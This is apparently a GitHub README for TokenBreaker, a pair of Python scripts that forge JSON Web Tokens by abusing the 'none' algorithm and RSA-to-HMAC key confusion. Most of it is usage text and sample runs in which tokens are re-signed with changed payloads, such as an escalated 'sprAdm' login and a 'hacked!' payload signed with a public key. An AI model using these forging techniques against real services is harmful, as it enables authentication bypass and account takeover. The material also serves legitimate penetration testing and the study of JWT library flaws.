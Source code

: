 # TokenBreaker

Token Breaker is focused on 2 particular vulnerability related to JWT tokens.

 - None Algorithm
 - RSAtoHMAC

Refer to [this](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) link about insights of the vulnerability and how an attacker can forge the tokens

Try out this vulnerability [this](http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php?)

## TheNone Usage
```
usage: TheNone.py [-h] -t TOKEN

TokenBreaker: 1.TheNoneAlgorithm

optional arguments:
  -h, --help            show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN
                        JWT Token value

Example Usage: python TheNone.py -t [JWTtoken]
```

### Output
```
$ ./TheNone.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6ImFkbSIsImlhdCI6IjE1Mzc1MjMxMjIifQ.ZWZhNjRmZDgzYWYzNDcxMjk5OTQ4YzE0NDVjMTNhZmJmYTQ5ZDhmYjY0ZDgyMzlhMjMwMGJlMTRhODA2NGU4MQ

TheNone

[*] Decoded Header value is: {"alg":"HS256","typ":"JWS"}
[*] Decoded Payload value is: {"login":"adm","iat":"1537523122"}
[*] New header value with none algorithm: {"alg":"None","typ":"JWS"}
[<] Modify Header? [y/N]: n
[<] Enter your payload: {"login":"sprAdm","iat":"0"}
[+] Successfully encoded Token: eyJhbGciOiJOb25lIiwidHlwIjoiSldTIn0.eyJsb2dpbiI6InNwckFkbSIsImlhdCI6IjAifQ.
```

## RSAtoHMAC Usage
```
usage: RsaToHmac.py [-h] -t TOKEN -p PUBKEY

TokenBreaker: 1.RSAtoHMAC

optional arguments:
  -h, --help                        show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN           JWT Token value
  -p PUBKEY, --pubkey PUBKEY        Path to Public key File

Example Usage: python RsatoHMAC.py -t [JWTtoken] -p [PathtoPublickeyfile]</pre></code>
```

### Output
```
$ ./RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU0MDM3NjA2MSwiZXhwIjoxNTQwMzc2MTgxLCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.HI50KvoHzcf7znWkrdugn5-O-68PpJAeiS21cLisC1WgEI21gWnqqvv3oqsnzbGkIt21NvPVHWFXoKJmLPKHeMeYLgc7nuVdF37WWd7M1XzZEP8zLoed7Z6K0KfNuR_CRsjogv1KAt8fJQvRzRhFi9dORHGxWRqpiInIgLKROLgXB-7Rv2SOYdyD_XylRaVJ1JpmmCyVmIbzVWhVuRJWT59AUm43yYRP3bBt-bnhMfkzFpwxTk3O84-On4DoIt6NIkRJaxXDUdDKscLGmSWQmdZsZds3XSV0ZgN0PObADqkZwwCBAqUTT7l5BVcBmasdnNuZ8cCDKzNtJr2cdow6zQ -p public.pem

RSA to HMAC

[*] Decoded Header value: {"typ":"JWT","alg":"RS256"}
[*] Decode Payload value: {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1540376061,"exp":1540376181,"data":{"hello":"world"}}
[*] New header value with HMAC: {"typ":"JWT","alg":"HS256"}
[<] Modify Header? [y/N]: n
[<] Enter Your Payload value: {"iss":"http:\/\/www.google.com\/","iat":2351287873,"exp":1843945693,"data":{"hello":"hacked!"}}
[+] Successfully Encoded Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC93d3cuZ29vZ2xlLmNvbVwvIiwiaWF0IjoyMzUxMjg3ODczLCJleHAiOjE4NDM5NDU2OTMsImRhdGEiOnsiaGVsbG8iOiJoYWNrZWQhIn19.8jfUVCZPA7cWaSfe0LIjRt692RaFHnnvtw0jHoSAneQ
```
